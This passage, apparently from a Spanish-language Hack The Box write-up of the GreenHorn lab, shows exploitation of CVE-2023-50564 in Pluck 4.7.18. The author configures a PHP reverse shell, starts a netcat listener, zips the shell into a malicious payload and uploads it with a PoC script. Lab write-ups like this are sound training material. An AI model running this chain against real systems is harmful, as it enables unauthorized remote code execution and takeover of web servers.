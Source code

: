 Procederemos a editar el archivo `poc.py` y modificaremos las variables por las correctas, indicando el hostname `greenhorn.htb` y las credenciales de usuario `admin`.

<figure><img src="../../../../.gitbook/assets/imagen (173).png" alt=""><figcaption></figcaption></figure>

Por otro lado, procederemos a utilizar la siguiente Reverse Shell PHP de `pentestmonkey`.

{% embed url="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php" %}

Editaremos el archivo de la Reverse Shell PHP con nuestra dirección IP de atacante y el puerto por donde estaremos en escucha con `nc`.

<figure><img src="../../../../.gitbook/assets/3750_vmware_vDjr7i9wJ4.png" alt=""><figcaption></figcaption></figure>

En una terminal nueva, procederemos a ponernos en escucha por el puerto especificado en la Reverse Shell de PHP.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Procederemos  comprimir el archivo `shell.php` en un comprimido llamado `payload.zip`. Procederemos a explotar la vulnerabilidad indicándole la ruta donde se encuentra el `.zip` malicioso.

```bash
❯ zip payload.zip shell.php
updating: shell.php (deflated 72%)
❯ ls -l
.rw-rw-r-- kali kali 1.0 KB Thu Jan 16 17:43:32 2025  LICENSE
.rw-rw-r-- kali kali 2.7 KB Thu Jan 16 18:01:09 2025  payload.zip
.rwxrwxr-x kali kali 1.6 KB Thu Jan 16 17:48:32 2025  poc.py
.rw-rw-r-- kali kali 1.8 KB Thu Jan 16 17:43:32 2025  README.md
.rw-rw-r-- kali kali 9.3 KB Thu Jan 16 17:57:11 2025  shell.php
❯ pwd
/HackTheBox/Linux/GreenHorn/content/CVE-2023-50564_Pluck-v4.7.18_PoC
❯ python poc.py
ZIP file path: /HackTheBox/Linux/GreenHorn/content/CVE-2023-50564_Pluck-v4.7.18_PoC/payload.zip
Login successful
ZIP file uploaded successfully.
```
